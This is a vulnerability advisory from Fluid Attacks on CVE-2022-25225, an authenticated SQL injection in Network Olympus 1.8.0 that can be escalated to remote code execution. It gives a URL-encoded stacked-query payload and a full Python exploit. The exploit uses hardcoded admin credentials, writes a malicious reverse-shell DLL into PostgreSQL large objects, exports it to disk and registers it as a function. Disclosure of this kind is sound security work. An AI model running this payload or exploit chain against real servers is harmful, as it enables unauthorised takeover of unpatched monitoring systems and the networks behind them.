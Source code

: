 ```yaml
---
slug: advisories/spinetta/
title: Network Olympus 1.8.0 - SQL Injection
authors: Oscar Uribe
writer: ouribe
codename: spinetta
product: Network Olympus 1.8.0
date: 2022-02-23 10:00 COT
cveid: CVE-2022-25225
severity: 9.1
description: Network Olympus 1.8.0 - SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, Network Olympus
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                                 |
|-------------------------|-----------------------------------------------------------------|
| **Name**                | Network Olympus 1.8.0 - SQL Injection                           |
| **Code name**           | [Spinetta](https://en.wikipedia.org/wiki/Luis_Alberto_Spinetta) |
| **Product**             | Network Olympus                                                 |
| **Affected versions**   | Version 1.8.0                                                   |
| **State**               | Public                                                          |
| **Release date**        | 2022-03-07                                                      |

## Vulnerability

|                       |                                                                  |
|-----------------------|------------------------------------------------------------------|
| **Kind**              | SQL injection                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146)    |
| **Remote**            | Yes                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H                     |
| **CVSSv3 Base Score** | 9.1                                                              |
| **Exploit available** | No                                                               |
| **CVE ID(s)**         | [CVE-2022-25225](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25225)                                                     |

## Description

Network Olympus **version 1.8.0** allows an authenticated admin user to inject
SQL queries in `/api/eventinstance` via the `sqlparameter`. It is also possible
to achieve remote code execution in the default installation (PostgreSQL)
by exploiting this issue.

## Proof of Concept

Steps to reproduce

1. Log in to Network Olympus.

2. The application send a request to `/api/eventinstance`
   with a json as parameter in the url, the json parameter
   `sqlparameter` allows to inject sql queries. It can be
   exploited using boolean based sql or stacked queries.

3. The following PoC can be used to make the database sleep for 2 seconds.

    ```html
      /api/eventinstance/{"pagenumber":1,"itemsperpage":100,"order":"asc","sqlparameter":[],"sqlstring":"1=1%2f%2a%2a%2f;select%2f%2a%2a%2fpg_sleep(2);--"}
    ```

4. To achieve command execution it is possible to create a malicious
   DLL and then load it in postgresql.

5. Create a malicious postgres [DLL extension](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html).

6. Create a copy of the exploit found in the following session
   and copy the generated DLL to the same folder
   and rename it to `rev_shell.dll`.

System Information

* Version: Network Olympus 1.8.0 (Trial Version).
* Operating System: Windows 10.
* Database and version: PostgreSQL 10.8,
  compiled by Visual C++ build 1800, 32-bit.

## Exploit

```python
import requests,sys, urllib, string, random, time, binascii
requests.packages.urllib3.disable_warnings()


# encoded UDF rev_shell dll

def read_udf(filename='rev_shell.dll'):
    f = open(filename, 'rb')
    content = f.read()
    return  binascii.hexlify(content)


udf = read_udf()


def login():

    url = "http://172.16.28.140:3000/api/signIn"

    # CHANGE THIS
    json = {"password": "j84sTuh8pmLb2YhVTChcmg==", "username": "admin"}

    s = requests.session()
    s.post(url, json=json)

    return s

def log(msg):
    print(msg)

def make_request(url, sql,s):
    json_query = """{"pagenumber":1,"itemsperpage":100,"order":"asc","sqlparameter":[],"sqlstring":\""""

    sqli = "1=1; %s --" % sql

    sqli = sqli.replace(" ","%2f%2a%2a%2f")

    sqli = json_query + sqli + "\"}"

    log("[*] Executing query: %s" % sql[0:80])
    proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    r = s.get(url+sqli, verify=False, proxies=proxies)

    return r


def delete_lo(url, loid,s):
    log("[+] Deleting existing LO...")
    sql = "SELECT lo_unlink(%d)" % loid
    make_request(url, sql, s)


def create_lo(url, loid,s):
    log("[+] Creating LO for UDF injection...")
    sql = "SELECT lo_import('C:\\\\windows\\\\win.ini',%d)" % loid
    make_request(url, sql, s)


def inject_udf(url, loid,s):
    log("[+] Injecting payload of length %d into LO..." % len(udf))

    size = 2048 * 2

    for i in range(0,((len(udf)-1)/size)+1):
        udf_chunk = udf[i*size:(i+1)*size]

        if i == 0:
            sql = "UPDATE PG_LARGEOBJECT SET data=decode('%s', 'hex') where loid=%d and pageno=%d" % (udf_chunk, loid, i)
        else:
            sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode('%s', 'hex'))" % (loid, i, udf_chunk)

        make_request(url, sql,s)

def export_udf(url, loid,s):
    log("[+] Exporting UDF library to filesystem...")
    sql = "SELECT lo_export(%d, 'C:\\\\Users\\\\Public\\\\rev_shell.dll')" % loid
    make_request(url, sql,s)

def create_udf_func(url,s):
    log("[+] Creating function...")
    #sql = "create or replace function rev_shell(text, integer) returns VOID as 'C:\\Users\\Public\\rev_shell.dll', 'connect_back' language C strict"
    sql = "CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS 'C:\\\\Users\\\\Public\\\\rev_shell.dll', 'dummy_function' LANGUAGE C STRICT;"
    make_request(url, sql,s)

if __name__ == '__main__':
    try:
        server = sys.argv[1].strip()
        port = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s serverIP:port " % sys.argv[0])
        sys.exit()

    sqli_url = "http://%s:%s/api/eventinstance/" % (server,port)

    loid = 1337

    print("[*] Authenticated SQL Injection to RCE")
    print("[*] Network Olympus 1.8.0 ")
    print

    s = login()

    delete_lo(sqli_url, loid,s)
    create_lo(sqli_url, loid,s)
    inject_udf(sqli_url, loid,s)
    export_udf(sqli_url, loid,s)
    create_udf_func(sqli_url,s)
```

## Mitigation

By 2022-03-07 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://www.network-olympus.com/monitoring/>                       |

## Timeline

* 2022-02-22: Vulnerability discovered.

* 2022-02-23: Vendor contacted.

* 2022-03-07: Public Disclosure.